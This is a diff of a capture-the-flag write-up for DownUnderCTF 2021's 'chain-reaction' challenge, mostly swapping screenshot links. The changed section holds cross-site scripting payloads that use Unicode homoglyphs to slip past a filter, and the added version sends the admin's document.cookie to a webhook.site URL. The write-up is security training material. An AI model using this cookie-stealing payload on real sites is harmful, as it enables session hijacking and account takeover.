

Before and after one commit to j1s0o/CTF, a Markdown page: downunderctf-2021/chain-reaction.md, the part around one of its changes. Shown at 93% size. Rendered like a GitHub page; pictures changed too: .gitbook/assets/image (46).png, .gitbook/assets/image (47).png, .gitbook/assets/image (48).png; grey boxes are pictures that could not be loaded.

Commit message:
GitBook: [master] one page and 5 assets modified

````diff
--- a/downunderctf-2021/chain-reaction.md
+++ b/downunderctf-2021/chain-reaction.md
@@ -2,7 +2,7 @@
 
 First, register  and login
 
-![](../.gitbook/assets/image%20%2847%29.png)
+![](../.gitbook/assets/image%20%2848%29.png)
 
 ![](../.gitbook/assets/image%20%2843%29.png)
 
@@ -12,7 +12,7 @@ Unicode characters
 
 Take a look our profile
 
-![](../.gitbook/assets/image%20%2848%29.png)
+![](../.gitbook/assets/image%20%2849%29.png)
 
 ![](../.gitbook/assets/image%20%2845%29.png)
 
@@ -20,19 +20,17 @@ using this to encode [unicode ](https://www.irongeek.com/homoglyph-attack-genera
 
 and use url encode to encode the command
 
-```text
-payload = "＞＜Ｓcript＞alert(1)＜/Ｓcript＞
-```
-
 ![](../.gitbook/assets/image%20%2844%29.png)
 
-![](../.gitbook/assets/image%20%2846%29.png)
+![](../.gitbook/assets/image%20%2847%29.png)
 
 =&gt; This chall is xss
+
+host sever: webhook.site
 
 Taking cookie admin
 
 ```text
-payload = "＞＜Ｓcript＞var i = new Image;i.src="https://[my-server-url]?"+document.cookie＜/Ｓcript＞
+payload = ﹤ˢcrⁱpt﹥fetch("https://webhook.site/05a170ea-bd98-44f8-9239-3f1381970e68c="+document.cookie)﹤/ˢcrⁱpt﹥
 ```
 
````
Also changed, not shown: other parts of downunderctf-2021/chain-reaction.md (+7 -1 lines), .gitbook/assets/image (50).png (added).
